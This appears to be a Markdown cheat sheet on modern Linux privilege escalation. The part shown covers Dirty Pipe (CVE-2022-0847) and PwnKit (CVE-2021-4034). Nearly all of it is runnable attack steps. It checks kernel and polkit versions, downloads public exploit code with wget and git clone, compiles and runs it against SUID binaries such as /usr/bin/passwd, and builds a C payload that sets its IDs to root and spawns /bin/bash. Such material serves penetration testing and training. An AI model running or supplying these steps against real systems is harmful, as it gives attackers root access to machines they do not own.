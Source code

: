 # Privilege Escalation: Modern Techniques and Tools

## Overview

Privilege escalation involves gaining higher-level permissions on a system than initially obtained. Modern privilege escalation techniques target cloud environments, containerized applications, and exploit advanced kernel vulnerabilities, configuration mistakes, and service account abuse.

## Linux Privilege Escalation

### Kernel Exploits

#### CVE-2022-0847 (Dirty Pipe)

**Detection and Exploitation**
```bash
# Check kernel version
uname -a
cat /proc/version

# Download exploit
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-1.c
gcc -o exploit-1 exploit-1.c

# Alternative Python exploit
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit.py
python3 exploit.py

# Target SUID binaries
./exploit-1 /usr/bin/passwd
```

#### CVE-2021-4034 (PwnKit)

**Polkit Privilege Escalation**
```bash
# Check for vulnerable polkit
pkexec --version

# Download exploit
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make

# Execute exploit
./cve-2021-4034

# Alternative payload
echo 'int main(void) { setuid(0); setgid(0); system("/bin/bash"); return 0; }' > payload.c
gcc payload.c -o payload
./cve-2021-4034
```
